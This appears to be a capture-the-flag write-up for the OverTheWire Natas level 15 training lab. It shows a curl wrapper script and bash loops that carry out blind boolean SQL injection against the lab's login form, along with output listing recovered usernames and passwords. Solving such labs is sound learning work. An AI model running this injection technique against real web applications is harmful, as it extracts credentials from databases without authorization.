 # NATAS

**https://overthewire.org/wargames/natas/natas0.html**

### Natas15

**First, let's get our injector going. Just the curl with the data from the post prepared:**

cat injector.sh
>#!/bin/bash  
>  
>DATA=$1  
>  
>curl -s 'http://natas15.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic XXXXXXXXXXXXXXXXXXXXXXXXXXX' -H 'Cookie: __cfduid=XXXXXXXXXXXXXXXXXXXXX' -H 'Host: natas15.natas.labs.overthewire.org' -H 'Referer: http://natas15.natas.labs.overthewire.org/index.php' --data "username=testssdf\" or $DATA" | grep -c "This user exists"  

Then, let's start injecting:

USER=0;for j in {0..3}; do for((h=1;h<=10;h++)); do RES=$(./injector.sh "(select length(username) from users limit $USER,1)=%22$h"); if [[ $RES == 1 ]]; then L=$h; fi; done; echo -n "[+]Found user $USER: "; for((t=1;t<=$L;t++)); do for i in {32..126}; do RES2=$(./injector.sh "(select ascii(substr(username,$t,1)) from users limit $USER,1)=%22$i"); if [[ $RES2 == 1 ]]; then printf \\$(printf '%03o\n' "$i"); fi; done;done;echo "";  USER=$(echo $USER+1 | bc); done
[+]Found user 0: alice
[+]Found user 1: bob
[+]Found user 2: charlie
[+]Found user 3: natas16

USER=0;for j in {0..3}; do for((h=1;h<=10;h++)); do RES=$(./injector.sh "(select length(password) from users limit $USER,1)=%22$h"); if [[ $RES == 1 ]]; then L=$h; fi; done; echo -n "[+]Found password $USER: "; for((t=1;t<=$L;t++)); do for i in {32..126}; do RES2=$(./injector.sh "(select ascii(substr(password,$t,1)) from users limit $USER,1)=%22$i"); if [[ $RES2 == 1 ]]; then printf \\$(printf '%03o\n' "$i"); fi; done;done;echo "";  USER=$(echo $USER+1 | bc); done
>[+]Found password 0: hROtsfM734  
>[+]Found password 1: 6P151OntQe  
>[+]Found password 2: HLwuGKts2w  
>[+]Found password 3: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX **<- No spoils ^^ **   
